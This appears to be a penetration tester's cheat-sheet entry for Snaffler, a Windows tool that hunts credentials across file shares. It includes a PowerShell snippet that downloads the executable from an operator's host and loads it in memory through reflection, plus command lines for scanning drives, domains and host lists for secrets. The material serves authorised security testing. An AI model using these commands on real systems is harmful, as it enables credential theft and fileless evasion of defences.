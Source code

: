 # Snaffler

% snaffler, password hunting
#plateform/windows #target/local #cat/CREDENTIAL-ACCESS/CREDS_HUNT #tag/snaffler 



## assembly reflection
#cat/UTILS 
```powershell
$data = (New-Object System.Net.WebClient).DownloadData('http://<local_ip>:<port|80>/<dl_snaffler_path>Snaffler.exe')
$asm = [System.Reflection.Assembly]::Load($data);
$vars = New-Object System.Collections.Generic.List[System.Object];
$vars.Add("-s");
$vars.Add("-i");
$vars.Add("c:\");
$vars.Add("-v");
$vars.Add("data");
$passed = [string[]]$vars.ToArray();
$asm.EntryPoint.Invoke($null, @(,$passed))
```
= dl_snaffler_path: windows/NetFramework_4.7_x64/

## Snaffler - full 
```
.\snaffler.exe -s -o snaffler.loga -v data
```

## Snaffler - domain 
```
.\snaffler.exe -d <domain> -s -o snaffler.loga -v data
```

## Snaffler - path 
```
.\snaffler.exe -i <path|"c:\"> -s -o snaffler.log -v data
```

## Snaffler - hosts 
```
.\Snaffler.exe -n <host_list_comma_sep> -s -o snaffler.log -v data
```



